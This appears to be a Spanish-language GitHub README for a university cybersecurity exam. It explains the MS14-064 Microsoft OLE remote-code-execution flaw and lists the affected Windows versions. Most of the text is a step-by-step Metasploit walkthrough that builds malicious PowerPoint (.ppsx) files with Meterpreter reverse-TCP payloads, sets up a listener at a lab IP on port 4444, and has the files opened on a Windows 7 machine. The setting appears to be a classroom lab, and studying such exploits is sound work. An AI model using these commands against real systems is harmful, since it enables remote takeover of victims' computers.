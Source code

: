 # Parcial Ciber 
Vulnerabilidad MS14-064 Miscrosoft OLE: Estas vulnerabilidades podría permitir la ejecución remota de código si un usuario visita una página web especialmente diseñada con Internet Explorer. Un atacante que explotó con éxito las vulnerabilidades podría ejecutar código arbitrario en el contexto del usuario actual. Si el usuario actual ha iniciado sesión con derechos de usuario administrativos, un atacante podría instalar programas; ver, cambiar, o eliminar datos; o crear nuevas cuentas con plenos derechos de usuario. Los clientes cuyas cuentas están configuradas para tener menos derechos de usuario en el sistema podrían verse menos afectados que los usuarios que operan con derechos de usuario administrativos.

Sistema operativo: Microsoft Windows

Software:
Windows server 
Windows vista
Windows 8
Windows 8.1
Windows RT
Windows RT 8.1

Link del video: https://www.dropbox.com/s/is9pdjhpx7rsp54/Video_1552603800.wmv?dl=0
Captura del trafico por wireshark:

Instructivo para hacer el exploit:
msfconsole
use exploit/windows/fileformat/ms14_064_packager_run_as_admin

show options

set FILENAME MS14-064.ppsx

set LHOST 10.191.1.6

set LPORT 4444

set PAYLOAD windows/meterpreter/reverse_tcp

show options

exploit

use exploit/windows/fileformat/ms14_064_packager_python

show options

set FILENAME MS14-064_py.ppsx

set LHOST 10.191.1.6

set LPORT 4444

show options

exploit 
use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 10.191.1.6

set LPORT 4444

show options

exploit -j

ir a window 7 y abrir el archivo MS14-064.ppsx

set PAYLOAD python/meterpreter/reverse_tcp
r
exploit -j

ir a window 7 y ejecutar archivo MS14-064_py.ppsx



